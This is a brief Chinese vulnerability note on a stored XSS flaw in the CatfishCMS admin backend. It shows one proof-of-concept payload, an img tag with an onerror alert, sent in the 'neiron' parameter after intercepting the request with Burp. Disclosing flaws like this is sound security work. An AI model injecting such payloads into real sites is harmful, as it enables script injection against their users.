 # CatfishCMS 后台储存型 xss

> 原文：[http://book.iwonder.run/0day/CatfishCMS/1.html](http://book.iwonder.run/0day/CatfishCMS/1.html)

## 一、漏洞简介

网站背景中的管理员可以发布包含存储 XSS 漏洞的文章 提交标题以抓取数据包 使用 burp 修改参数 浏览文章可以触发 XSS

## 二、漏洞影响

## 三、复现过程

![image](img/3d52d2e1a8d1b62b1bccf90e83a77df5.png)

```
neiron=<img src=x onerror=alert(123)> 
```

![image](img/8bbd058dd52593c76ba21e8655b30e5a.png)

![image](img/354761c3d744d686636495d915968e13.png)

